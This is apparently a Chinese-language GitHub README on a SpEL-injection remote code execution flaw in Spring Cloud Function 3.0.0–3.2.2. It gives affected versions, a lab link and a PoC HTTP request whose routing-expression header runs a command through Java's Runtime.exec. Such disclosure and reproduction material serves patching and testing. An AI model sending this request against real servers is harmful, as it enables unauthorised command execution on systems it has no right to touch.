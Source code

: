 # Spring-Cloud-Function-SPEL-RCE

# 漏洞详情
当Spring Cloud Function 启用动态路由functionRouter时， HTTP请求头 spring.cloud.function.routing-expression参数存在SPEL表达式注入漏洞，攻击者可通过该漏洞进行远程命令执行。
# 影响版本
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2
# 漏洞环境
https://github.com/N1ce759/Spring-Cloud-Function-SPEL-RCE

JDK15！
![image](https://user-images.githubusercontent.com/100123029/160384105-7eab286d-ddc8-4a39-8f27-23904c39e6e2.png)

# 漏洞复现
https://nice759.com/2022/03/29/Spring-Cloud-Function-SPEL-RCE/

POC:
```

POST /functionRouter HTTP/1.1
Host: localhost:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: text/plain
Content-Length: 3
abc
```
![image](https://user-images.githubusercontent.com/100123029/160383973-fe42241e-58f3-4b66-b5f6-0a853c00db29.png)


# 漏洞分析
参考https://mp.weixin.qq.com/s/cEOXkEgBO6IiuBhMXj_SMQ
